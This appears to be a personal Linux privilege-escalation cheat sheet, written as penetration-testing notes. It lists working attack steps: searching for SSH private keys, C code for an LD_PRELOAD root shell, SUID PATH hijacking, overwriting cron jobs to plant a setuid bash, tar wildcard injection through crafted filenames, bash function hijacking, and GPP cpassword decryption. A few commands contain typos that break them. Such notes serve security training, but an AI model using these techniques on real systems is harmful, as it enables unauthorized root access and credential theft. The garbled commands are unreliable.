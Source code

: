 
Finding SSH Keys
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null

Should you find a rsa key - can get root shell with 2 commands
Copy rsa key to file on attacking machine
Run - chmod 400 rsakey
Run ssh -i rsakey username@ip

SUDO Priv Esc
see what a user has sudo rights too - sudo -l
should it ask for a sudo password - user has no sudo rights

Should stuff come up, take the names and search on gtfobins for sudo execution on the software

SUID
Type find / -type f -perm -04000 -ls 2>/dev/null to see what software has SUID set
use GTFO bins to look at software and see if any SUID exploits exist

Sudo LD_Preload
Sudo -l look for LD_PRELOAD at the top (pre loads a library)
Create a file 
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

Save file as x.c
Type 
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
Type 
sudo LD_PRELOAD=/tmp/x.so service you can run as sudo with sudo -l
Type id


Shared Object Injection
find / -type f -perm -04000 -ls 2>/dev/null
Look for something we can inject (look at each path and see what each thing does, are they scripts?) Can use a tool called strace  ---- strace /location/to/path ---- have a look for errors such as missing files or directories
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
Create the directory / file and add malicious code


Capabilities
use command getcap to list capabilities - when run as unpriv user use getcap -r / 2>/dev/null
serach on GTFO bins for any capabilities with the software names discovered

Cron Jobs
Any user can read the file keeping system-wide cron jobs under /etc/crontab - cat /etc/crontab
Edit any cron jobs that have permission and replace with a reverse shell using nano filename then edit. Ensure it runs as root.



Means runs every minute
Overwrite file with output such as 
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /file/path/ofcron.sh
chmod +x ofcron.sh
This will overwrite to tmp/bash and if you call /tmp/bash -p after the job has run it'll work

Also check systemd timers ---- systemctl list-timers --all

Cron Jobs with wildcard
Tar exploitation - when identifying cron jobs (cat /etc/crontab), there may be a job running using tar and a wildcard. You may have read only rights here.

E.g. A script contains this
cd important-directory
tar cf /var/backups/backup.tar *

First CD to the directory in the script
Add a malicious file --- echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > output.sh
chmod +x output.sh
touch  /directory/of/script--checkpoint=1
touch  /directory/of/script--checkpoint-action=exec=sh\ output.sh
/tmp/bash -p (have to wait for script to be run on timer)

Cron Jobs with overwrite
Check file perms of any cron jobs u find (ls -la filename.sh)
If write permissions can overwrite file
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> filename.sh

Path
find / -perm -u=s -exec ls -l {} \; 2>/dev/null
Look for non linux binaries

Or - find / -type f -perm -04000 -ls 2>/dev/null and look at binaries, run strings on the path -- strings /location/path and see if anything's interesting are there any system commands being called? If so see if you can write a new PATH - export PATH=      if yes;

1. In command prompt type:
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c (making new c file malicious service and writing it to the tmp folder)
2. In command prompt type: gcc /tmp/service.c -o /tmp/service   (outputting the file from C)
3. In command prompt type: export PATH=/tmp:$PATH  (creating new path variable)
4. In command prompt type: /usr/local/bin/suid-env   (this changes to whatever binary you identified)
5. In command prompt type: id

Another way
Repeat the find step ( - find / -type f -perm -04000 -ls 2>/dev/nul) and look at binary strings, if there is a system command being called with a direct service you could try create a new function as that service

E.g. If a binary has /usr/sbin/service apache 2 this shows it is reaching out to /usr/sbin to call the system command service. 
	1. Create a mew function with the path -- function /usr/sbin/service() {cp /bin/bash /tmp && chmpd +s /tmp/bash && /tmp/bash -p; }
	2. Export - ---- export -f /usr/sbin/service (ovbs change to the system command u find)
	3. Re -run the binary 


GPP Attacks
Sometimes stored in sysvol, cpassword is encrypted, can be de-crypted. Check with Metasploit - smb_enum_gpp.
Download if accessible via SMB by authing to smb - using mget command - mget * to download all files
To decrypt cpassword - use tool call gpp-decrypt



![image](https://user-images.githubusercontent.com/35967437/200787298-1e975059-fbe5-4d8a-8313-674bb4e4e67b.png)
